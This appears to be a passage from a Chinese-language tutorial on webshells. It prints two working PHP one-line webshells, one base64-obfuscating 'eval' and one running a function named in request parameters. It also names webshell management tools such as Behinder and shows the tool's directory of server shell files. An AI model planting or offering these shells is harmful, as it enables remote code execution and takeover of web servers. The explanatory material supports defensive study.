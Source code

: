 - **通过 base64_decode 编码执行函数名：**

复制代码

```
<?php

$a=base64_decode("ZXZhbA==")

$a($_POST['a']);

?>
```

- **由 GET 参数指定函数名和参数：**

复制代码

```
<?php $_GET['a']($_GET['b']);  ?>
```

行业内常称“一句话木马”为“小马”，用它来传递“大马”，因为“大马”比较容易被检测到。

#### 2.Webshell 管理工具

攻击者常用“菜刀”“冰蝎”“蚁剑”、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以“菜刀”最为出名。

由于原版“菜刀”只支持 Windows，因此我这边选用支持跨平台的“冰蝎”作为演示，可进入 [Github](https://github.com/rebeyond/Behinder/releases) 对“冰蝎”进行下载。

下载解压后的目录：

复制代码

```
$ tree

.

├── 更新日志.txt

├── Behinder_v3.0_Beta6_linux.jar

├── data.db

└── server

    ├── shell.asp

    ├── shell.aspx

    ├── shell.jsp

    ├── shell.jspx.jsp

    └── shell.php
```
